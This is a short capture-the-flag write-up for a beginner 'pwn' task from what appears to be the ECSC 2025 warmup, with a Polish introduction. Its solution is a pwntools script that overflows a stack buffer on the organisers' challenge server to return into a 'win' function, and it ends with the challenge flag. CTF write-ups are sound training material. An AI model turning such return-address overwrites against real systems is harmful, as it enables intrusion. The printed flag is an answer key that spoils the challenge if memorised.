 # Warmup: Pwn

> W tym roku przygotowaliśmy kilka zadań dla osób, które chcą zacząć swoją przygodę z konkursami z dziedziny cyberbezpieczeństwa (zazwyczaj nazywanymi CTFami). Dla tych z was, którzy pozjadali już zęby na CTFach, zadania te będą proste (lub wręcz trywialne), ale jeśli dla kogoś jest to pierwszy start - warto zacząć od nich przed przejściem do tych trudniejszych.
>
> Zadania wraz z ich opisami znajdziesz na poniższej stronie:
>
> [https://warmup.ecsc25.hack.cert.pl/#pwn](https://warmup.ecsc25.hack.cert.pl/#pwn)
>
> Na tej podstronie wpisz flagę z zadania w kategorii **pwn**.


## Solution
Blatant stack overflow & no ASLR or canaries. Just return to `win + 8` (to skip the prologue and have proper alignment in the call to `system`):

```py
from pwn import *

e = ELF('./server', checksec=False)

# io = e.process()
io = remote('warmup.ecsc25.hack.cert.pl', 5210)

io.sendline(b'A' * 16 + b'B' * 8 + p64(e.sym['win'] + 8))
io.interactive()
```

## Flag
`ecsc25{pwn3d}`

